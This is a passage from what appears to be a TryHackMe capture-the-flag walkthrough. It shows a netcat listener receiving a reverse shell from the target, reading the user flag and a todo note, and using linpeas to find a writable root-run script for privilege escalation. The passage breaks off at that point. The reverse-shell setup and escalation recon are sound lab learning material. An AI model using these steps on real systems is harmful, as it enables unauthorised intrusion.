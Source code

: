  And then listening to with netcat.

>[!info]
When you start netcat you have to wait for one minute so that you can have a reverse shell.


```bash
┌──(gemstone㉿kali)-[~/C7F5/thm/chain]
└─$ nc -nvlp 1122
listening on [any] 1122 ...
connect to [10.9.11.230] from (UNKNOWN) [10.10.8.200] 52262
/bin/sh: 0: can't access tty; job control turned off
$ 
```

We know have a shell then we will stabilize as usual and after it lets read the user.txt file first.

```bash
munojr@owaspQuiz:~$ ls
todo.txt  user.txt
munojr@owaspQuiz:~$ cat user.txt 
THM{REDACTED}
```
Now we are half of the journey lets continue to the escalation to root user.
-- -



# Root privilege escalation.
On munojr home directory they were two files and we read only `user.txt` then lets read `todo.txt` file.

```bash
munojr@owaspQuiz:~$ cat todo.txt 
Hey; munojr I want you to automate system security, Make sure an login attempt it reported! kindly make sure all scripts are secure!!

regards peterChain!!

Your current password is : [Redacted]
```

This was a message showing that there are some scripts that do some auto system security.
	Lets upload `linpeas.sh` again to help use recon with user munojr.
	
Running linpease second time there is something interesting
```bash
╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#script-binaries-in-path
You can write script: /usr/local/sbin/ssh-alert.sh
/usr/bin/gettext.sh
/usr/bin/rescan-scsi-bus.sh
```

So it seems that there is writable script by user `munojr` 
